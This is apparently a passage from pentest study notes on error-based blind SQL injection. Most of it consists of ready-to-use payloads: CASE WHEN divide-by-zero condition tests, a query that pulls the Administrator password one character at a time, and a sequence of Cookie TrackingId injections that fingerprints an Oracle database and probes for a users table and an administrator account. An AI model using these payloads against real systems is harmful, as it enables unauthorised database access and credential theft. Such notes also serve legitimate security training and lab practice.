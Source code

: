 Eventually, you will have the whole string.

### Inducing conditional responses by triggering SQL errors <a href="#inducing-conditional-responses-by-triggering-sql-errors" id="inducing-conditional-responses-by-triggering-sql-errors"></a>

This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false.

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`` `**`// = 'a'`**

`xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`` `**`// = 1/0 error`**

Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

To test for vulnerability:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'`

`Cookie: TrackingId=jtQxp6BAmmb6pemr''`

If the error disappears you have a **syntax error**.

To confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT '')||'`

To test for Oracle databases:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT '' FROM dual)||'`

If you do not get an error with the above query, then the DB is Oracle. To make sure SQL query is being processed in the backend, run the following:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT '' FROM not-a-real-table)||'`

To verify that a users table exists:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

To test conditions:

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' //should give error`

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' //should NOT give error`

{% hint style="info" %}
We get an error when the conditional is True
{% endhint %}

Check for a username (will result in an error if true):

`Cookie: TrackingId=jtQxp6BAmmb6pemr'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
